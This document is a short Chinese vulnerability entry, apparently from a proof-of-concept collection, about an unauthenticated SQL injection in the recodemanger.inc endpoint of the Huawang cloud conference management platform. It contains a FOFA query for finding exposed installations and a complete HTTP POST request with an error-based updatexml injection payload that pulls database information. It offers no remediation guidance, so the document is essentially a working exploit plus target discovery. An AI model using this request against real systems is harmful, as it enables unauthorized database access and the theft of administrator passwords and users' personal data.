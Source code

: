 # 华望云会议管理平台recodemanger.inc存在SQL注入漏洞

华望云会议管理平台 `recodemanger.inc` 接口处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```javascript
title="华望云会议管理平台"
```

## poc

```javascript
POST /page/recodemanger.inc?search=1%25'+and+1%3d(updatexml(0x7e,concat(1,(select+user())),1))+and+'%25%25'+like+'&params[]=nName&params[]=confName&params[]=displayName&params[]=status&selectTime=1 HTTP/1.1
Host: 
Cookie: uid=112; JSESSIONID=8E8A139355E2047CEAC6B307396968A8; languageGlobal=1
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
```

